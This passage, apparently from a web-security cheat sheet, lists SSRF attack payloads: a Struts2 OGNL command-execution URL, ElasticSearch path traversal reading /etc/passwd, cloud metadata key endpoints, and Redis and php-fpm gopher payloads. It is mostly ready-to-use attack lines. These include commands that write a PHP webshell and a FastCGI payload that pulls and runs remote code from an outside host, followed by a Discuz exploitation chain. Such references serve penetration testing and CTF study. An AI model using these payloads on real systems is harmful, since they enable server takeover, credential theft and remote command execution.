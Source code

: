### Struts2 s2-016 (HTTP)
- `action:`、`redirect:`、`redirectAction:`
```
http://10.0.2.87/index.do?redirect:${new java.lang.ProcessBuilder('id').start()}
```
### Struts2 s2-057 (HTTP)
```
http://10.0.2.87/$%7B233*233%7D/actionChain1.action
```
### ElasticSearch CVE-2015-3337 (HTTP)
```
http://10.0.2.87:9200/_plugin/head/../../../../etc/passwd
```
### Cloud Metadata (HTTP)
[cloud_metadata.txt](https://gist.github.com/BuffaloWill/fa96693af67e3a3dd3fb)
```
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
```

### Docker API (HTTP)
- Remote api 未授權訪問
- 開一個container，掛載/root/，寫ssh key
- 寫crontab彈shell

### Redis (REdis Serialization Protocol)
- default port: `6379`
- 用 SAVE 寫 webshell
```
FLUSHALL 
SET myshell "<?php system($_GET['cmd']) ?>"
CONFIG SET DIR /www 
CONFIG SET DBFILENAME shell.php 
SAVE
QUIT
```
`gopher://127.0.0.1:6379/_FLUSHALL%0D%0ASET%20myshell%20%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%3F%3E%22%0D%0ACONFIG%20SET%20DIR%20%2fwww%2f%0D%0ACONFIG%20SET%20DBFILENAME%20shell.php%0D%0ASAVE%0D%0AQUIT`
- 用 SAVE 寫 SSH Key
- 用 SAVE 寫 crontab

### php-fpm (FastCGI)
- default port: 9000
- example
    - Discuz Pwn
        - 302.php: `<?php
header( "Location: gopher://127.0.0.1:9000/x%01%01Zh%00%08%00%00%00%01%00%00%00%00%00%00%01%04Zh%00%8b%00%00%0E%03REQUEST_METHODGET%0F%0FSCRIPT_FILENAME/www//index.php%0F%16PHP_ADMIN_VALUEallow_url_include%20=%20On%09%26PHP_VALUEauto_prepend_file%20=%20http://kaibro.tw/x%01%04Zh%00%00%00%00%01%05Zh%00%00%00%00" );`
        - x: `<?php system($_GET['cmd']); ?>`
        - visit: `/forum.php?mod=ajax&action=downremoteimg&message=[img]http://kaibro.tw/302.php?.jpg[/img]`
        